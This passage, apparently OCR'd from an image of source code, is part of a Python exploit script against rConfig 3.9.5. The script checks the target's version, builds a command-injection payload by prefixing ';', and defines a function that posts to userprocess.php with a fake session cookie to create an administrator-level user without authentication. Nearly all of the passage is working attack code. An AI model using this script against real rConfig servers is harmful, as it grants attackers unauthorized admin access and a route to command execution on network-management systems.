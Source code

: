      

    if version == "rConfig Version 3.9.5":

       print("Version 3.9.5 confirmed")

    else:

       print("Version is "+version+ " it may not be vulnerable")

     

    payload_final=";"+payload

    referer=url+"useradmin.php"

    origin=url

    proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"} #in case you need to debug the exploit with Burp, add ', proxies=proxies' to any request

     

    def createuser():

     

        multipart_data = MultipartEncoder(

           fields={

                   'username': 'test',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': 'test@test.com',

                   'ulevelid': '9',

                   'add': 'add',

                   'editid': ''

                  }

           )

        headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

        cookies = {'PHPSESSID': 'test'}

        response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

        if "error" not in response.text:

            print("(+) User test created")

        else:

            print("(-) User couldn't be created, please debug the exploit")

     

     